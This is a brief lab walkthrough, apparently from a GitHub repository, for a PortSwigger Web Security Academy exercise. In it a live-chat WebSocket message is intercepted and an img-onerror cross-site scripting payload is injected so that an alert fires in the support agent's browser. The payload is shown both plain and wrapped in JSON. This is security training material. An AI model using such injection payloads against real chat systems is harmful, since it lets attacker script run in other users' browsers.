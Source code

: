 # Manipulating WebSocket messages to exploit vulnerabilities

## This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).

## Chat messages that you submit are viewed by a support agent in real time.

## To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser.

### step1

open lab go to live chat start chat intercept chat sent to repeater

```html
<img src="1" onerror="alert(1)" />
```

put like this

```html
{"message":"<img src="1" onerror="alert(1)" />"}
```
